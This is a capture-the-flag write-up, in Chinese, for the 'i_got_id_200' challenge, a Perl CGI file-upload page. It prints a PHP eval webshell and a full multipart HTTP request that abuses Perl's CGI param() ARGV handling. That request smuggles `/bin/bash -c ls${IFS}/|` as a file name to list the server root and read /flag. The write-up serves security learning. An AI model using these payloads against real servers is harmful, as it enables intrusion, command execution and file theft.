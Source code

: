 # i_got_id_200

## 解题思路

- 首先打开网页，发现有三个页面，点开第一个‘Hello World’，没啥东西；点开第二个‘Forms’，里面有一个Name一个Age，填了东西发现没有注入点，只是单纯把我们的输入给打印在网页上而已（虽然确实是从服务器发来的，但不进行数据库操作，只是单纯的复制粘贴）

- 打开第三个页面，发现是个上传框，想到文件上传漏洞，构建一句话木马尝试一下：

    `<?php @eval($_POST['hacker']); ?>`

- 结果没有成功执行，它只是把我的这句代码打出到屏幕上而已...

- 看别人的wp，发现有个新的知识点：

    - param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的接收变量中。如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。对正常的上传文件进行修改,可以达到读取任意文件的目的

    - 而在网页上显示输入内容很有可能就是用了param()函数来实现，例如：

        ```php
        use strict;
        use warnings; 
        use CGI;
        my $cgi= CGI->new;
        if ( $cgi->upload( 'file' ) ) { 
            my $file= $cgi->param( 'file' );
            while ( <$file> ) { print "$_"; }
        } 
        ```

- 我们试一下，看看是不是param()的问题：看到 `/cgi-bin/forms.pl` ，猜想代码放在 `/var/www/cgi-bin/file.pl` 里(/var/www/...，国际惯例了，咱们自己的139邮箱和hecaiyun都是/var/www/...的结构)；

    - 利用 `/bin/bash` 读取文件（很神奇，明明不能执行语句只能读文件名，但是这句话居然也可以执行），构造payload：

    ```r
    POST /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/|  HTTP/1.1
    Host: 111.198.29.45:49113
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: multipart/form-data; boundary=---------------------------18467633426500
    Content-Length: 427
    Origin: http://111.198.29.45:49113
    Connection: close
    Referer: http://111.198.29.45:49113/cgi-bin/file.pl
    Upgrade-Insecure-Requests: 1

    -----------------------------18467633426500
    Content-Disposition: form-data; name="file"
    Content-Type: application/octet-stream

    ARGV
    -----------------------------18467633426500
    Content-Disposition: form-data; name="file"; filename="1.php"
    Content-Type: image/jpeg


    -----------------------------18467633426500
    Content-Disposition: form-data; name="Submit!"

    Submit!
    -----------------------------18467633426500--
    ```

    服务器回应：

    ```html
    bin
    <br />boot
    <br />dev
    <br />etc
    <br />flag
    <br />home
    <br />lib
    <br />lib64
    <br />media
    <br />mnt
    <br />opt
    <br />proc
    <br />root
    <br />run
    <br />sbin
    <br />srv
    <br />sys
    <br />tmp
    <br />usr
    <br />var
    <br /></body></html>
    ```

    找到了，把 `/bin/bash...` 改成 `/flag` ，请求，服务器回复flag，搞定！

- 其实也可以直接一上来就 `/flag` ，也能试出来。

## 待解决的问题：

- `/bin/bash ...` 到底是什么语句？为什么能被视为文件名呢？

## 知识点：

- param()函数在面对传入argv文件时，会将头部传递的参数当成文件名进行读取，因此在同时上传多个文件的同时修改头部参数，即可做到读取文件内容。

- 网站服务器的文件一般都在/var/www内。

- `/bin/bash -c ls${IFS}/|` 语句可用来读取文件，它被视作文件名。